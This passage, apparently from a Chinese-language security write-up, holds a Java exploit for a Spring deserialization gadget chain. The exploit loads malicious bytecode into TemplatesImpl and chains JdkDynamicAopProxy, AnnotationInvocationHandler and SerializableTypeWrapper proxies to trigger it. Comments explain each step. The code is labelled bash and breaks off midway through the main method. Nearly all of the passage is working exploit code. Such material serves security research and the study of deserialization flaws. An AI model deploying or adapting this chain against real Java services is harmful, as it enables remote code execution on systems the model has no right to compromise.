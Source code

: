 exp 如下：

```bash
package com.example.spring;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.CannotCompileException;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.NotFoundException;
import org.springframework.aop.framework.AdvisedSupport;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class spring2 {
    public static void main(String[] args) throws Exception {
        // 生成包含恶意类字节码的 TemplatesImpl 类
        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_bytecodes", new byte[][]{getTemplates()});
        setFieldValue(templatesImpl, "_name", "aiwin");
        setFieldValue(templatesImpl, "_tfactory", null);
        // 实例化 AdvisedSupport
        //JdkDynamicAopProxy 代理 AdvisedSupport，进入 JdkDynamicAopProxy#invoke() 触发 method.invoke() 触发 TemplatesImpl
        AdvisedSupport advisedSupport=new AdvisedSupport();
        advisedSupport.setTarget(templatesImpl);
        Class<?> JdkDynamicAopProxy=Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> AopConstruct=JdkDynamicAopProxy.getDeclaredConstructor(AdvisedSupport.class);
        AopConstruct.setAccessible(true);
        InvocationHandler invocationHandler= (InvocationHandler) AopConstruct.newInstance(advisedSupport);

        // 这里是连接桥梁，承上启下，修改成Type和Templates两个接口,findMethod()时匹配返回newTransform(),
        //并由JdkDynamicAopProxy代理,
        //invokeMethod()触发JdkDynamicAopProxy#invoke()从而连接起上面的内容
        Type TypeTemplates= (Type) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Type.class,Templates.class},invocationHandler);

        Class<?> annotationInvocationHandler=Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor=annotationInvocationHandler.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);

        //AnnotationInvocationHandler代理TypeProvider,让getType()返回TypeTemplates
        HashMap hashMap=new HashMap<>();
        hashMap.put("getType",TypeTemplates);
        InvocationHandler invocationHandler1= (InvocationHandler) constructor.newInstance(Target.class,hashMap);
        Class<?> typeProviderClass = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        Object TypeProvider=Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{typeProviderClass}, invocationHandler1);
        Class<?> MethodInvokeTypeProvider=Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Constructor<?> constructor2=MethodInvokeTypeProvider.getDeclaredConstructors()[0];
        constructor2.setAccessible(true);
```